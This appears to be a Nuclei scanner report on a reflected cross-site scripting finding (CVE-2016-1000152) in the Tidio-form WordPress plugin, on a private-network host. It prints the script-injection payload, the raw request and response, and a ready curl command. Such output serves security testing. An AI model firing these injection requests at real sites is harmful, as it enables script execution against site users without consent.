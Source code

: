 ### Tidio-form <= 1.0 - Reflected Cross-Site Scripting (XSS) (CVE-2016-1000152) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2016-1000152**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/tidio-form/popup-insert-help.php?formId=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:14 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Tidio-form <= 1.0 - Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2016, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | Reflected XSS in wordpress plugin tidio-form v1.0 |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2016-1000152](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-1000152) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/tidio-form/popup-insert-help.php?formId=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 251
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/tidio-form/popup-insert-help.php?formId="></script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2016-1000152
- http://www.vapidlabs.com/wp/wp_advisory.php?v=799
- https://wordpress.org/plugins/tidio-form
- http://www.securityfocus.com/bid/93579

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/tidio-form/popup-insert-help.php?formId=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)